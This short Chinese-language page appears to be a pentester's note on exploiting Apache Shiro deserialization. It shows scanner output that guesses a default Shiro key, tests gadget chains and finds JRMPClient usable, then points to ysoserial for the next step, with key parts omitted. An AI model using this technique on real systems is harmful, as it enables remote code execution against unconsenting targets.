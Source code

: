 ## 0x00 漏洞背景

  在打一个项目中，shiro反序列化有个链容易忽略，找到key没有链，可以尝试JRMPClient，下面是测试结果，关键部分已经截去。
 ``` 
[-] target is use shiro
[-] start guess shiro key...
[-] use shiro key: 4AvVhmFLUs0KTA3Kprsdag==
[-] check CommonsBeanutils1
[-] check CommonsCollections1
[-] check CommonsCollections2
[-] check CommonsCollections3
[-] check CommonsCollections4
[-] check CommonsCollections5
[-] check CommonsCollections6
[-] check CommonsCollections7
[-] check Groovy1
[-] check JSON1
[-] check Spring1
[-] check Spring2
[-] check Jdk7u21
[-] check JRMPClient
[-] check ROME
[-] check Clojure
[*] find: JRMPClient can be use
0: JRMPClient
[-] please enter the number(0-0)

```
## 0x00 漏洞利用
  
  使用ysoserial.jar 工具搭建服务
